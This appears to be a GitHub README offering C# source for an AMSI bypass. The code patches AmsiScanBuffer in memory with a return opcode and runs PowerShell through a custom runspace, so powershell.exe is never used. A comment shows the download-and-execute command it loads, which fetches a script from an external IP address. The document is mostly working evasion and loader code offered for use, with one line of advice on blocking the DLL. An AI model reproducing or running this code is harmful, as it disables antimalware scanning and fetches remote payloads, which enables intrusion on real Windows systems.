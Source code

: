 
The AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe. in conclusion if someone had asked me that how Do we prevent from powershell base attack.I woulnd have recommend blocking System.Management.Automation.dll like I mention above The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command.


**This AMSI Patching Techniquie is heavy reliance on rastamouse's Techniques,there is something to keep in mind that the technique I utilized is being detected by most an Enpoint solution.**


```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace Gawdawpalin 
{
    class Program
    {
        static void Main(string[] args)
        {

            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Shwegugyi.MeMe();

        }

        class Shwegugyi 

        {
            //$OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('https://54.18.24.199:7775/download/Bagan.ps1')"
            //[System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))
            public static string Command = System.Text.Encoding.UTF8.GetString(System.Convert.FromBase64String(@"Base64 Data"));
            
            public static void MeMe()
            {
                InitialSessionState p = InitialSessionState.CreateDefault();
                Runspace rspace = RunspaceFactory.CreateRunspace(p);
                rspace.Open();
                PowerShell Evil = PowerShell.Create();
                Evil.Runspace = rspace;
                Evil.AddScript(Command);
                Evil.Invoke();
                rspace.Close();
            }
        }

        //Importing The Necessary WInAPI to Load the LoadLibrary other related to system function.

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```
